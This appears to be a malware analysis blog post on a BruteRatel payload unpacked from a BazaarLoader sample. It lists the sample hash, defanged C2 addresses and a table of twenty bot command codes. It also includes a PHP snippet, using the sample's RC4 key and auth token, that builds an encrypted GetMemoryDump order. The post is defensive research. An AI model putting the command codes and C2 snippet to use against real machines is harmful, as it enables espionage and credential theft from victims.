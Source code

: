 ```yaml
---
title: "BruteRatel full command analysis (1/X)"
date: 2025-03-XX
---
```


<link rel="stylesheet" href="/css/main.css">

## BazaarLoader / BRUTERATEL  

## Context  

BruteRatel SHA256 : d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1  

Sample Source :  
[bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)   

VirusTotal :  
[VirusTotal](https://www.virustotal.com/gui/file/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1)  

Network / C2 :  
http://tiguanin[.]com/bazar.php:8041
http://tiguanin[.]com/admin.php:8041  
http://bazarunet[.]com/admin.php:8041  
http://bazarunet[.]com/bazar.php:8041  
http://greshunka[.]com/bazar.php:8041 
http://greshunka[.]com/admin.php:8041 

# INTRO  

This article is a follow-up from a previous post regarding a BazaarLoader sample analysis : [Initial Post](https://cedricg-mirror.github.io/2025/02/04/BazaarLoader.html)  
After going through various stages of unpacking and in-memory loading, I was able to retrieve the final payload from the initial sample and made it available on [bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)  

Working on this unpacked payload made the sample analysis much more straightforward and given the sheer amount of functionalities offered by this malware I've decided to review them all.  

This detailed analysis will be split into several parts, I will be presenting in this the 'first' 20 commands that BruteRatel can respond to.  

# COMMAND LIST

Here is a short description of the first 20 command codes and purpose :  

| Command ID   | Description             | Parameter         |
| :----------- | :---------------------- | :----------------:|
| "\x9f\x3c"   | GetCurrentDirectory     | NA                |
| "\x3f\xd5"   | GetIpTable              | NA                |
| "\xfe\x4f"   | GetAccountPrivileges    | NA                |
| "\x91\x03"   | LockWorkStation         | NA                |
| "\x09\x06"   | GetLogicalDrives        | NA                |
| "\x01\x0a"   | GetSystemUptime         | NA                |
| "\x06\x0b"   | GetLastInputInfo        | NA                |
| "\x03\x07"   | ExitProcess             | NA                |
| "\x05\x06"   | RevertToSelf            | NA                |
| "\x05\x01"   | GetClipBoardData        | NA                |
| "\x44\xc1"   | EnumDevicesDrivers      | NA                |
| "\x41\x9c"   | Screenshot              | NA                |
| "\xcb\xe3"   | GetDomainControlerInfo  | NA                |
| "\x16\xf6"   | GetNetworkAdaptersInfo  | NA                |
| "\x03\x08"   | ExitThread              | NA                |
| "\x34\x49"   | GetMemoryDump           | "processname.exe" |
| "\x39\xb3"   | GetTcpUdpTables         | NA                | 
| "\x1a\xd4"   | GetIpForwardTable       | NA                | 
| "\x9a\xbe"   | QuerySessionInformation | NA                | 
| "\xb7\x38"   | GetDnsCacheDataTable    | NA                |

# Command Syntax  

On the C2 side, a command can be issued this way (example with the GetMemoryDump order) :  

```php
$RC4Key = "S47EFEUO3D2O6641";
$auth_token = "OV1T557KBIUECUM5";

function GetMemoryDump($process_name)
{
	$cmd_id = "\x34\x49 $process_name";
	$cmd_id_b64 = base64_encode($cmd_id);
	
	return $cmd_id_b64;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST')
{
	$cmd_id_b64 = GetMemoryDump("explorer.exe");
	
	$cmd = "$auth_token, $cmd_id_b64";
	$cmd_enc = rc4($Rc4Key, $cmd);
	$cmd_b64 = base64_encode($cmd_enc);
	echo $cmd_b64;
	
	return;
}
```

# Dynamic Analysis  


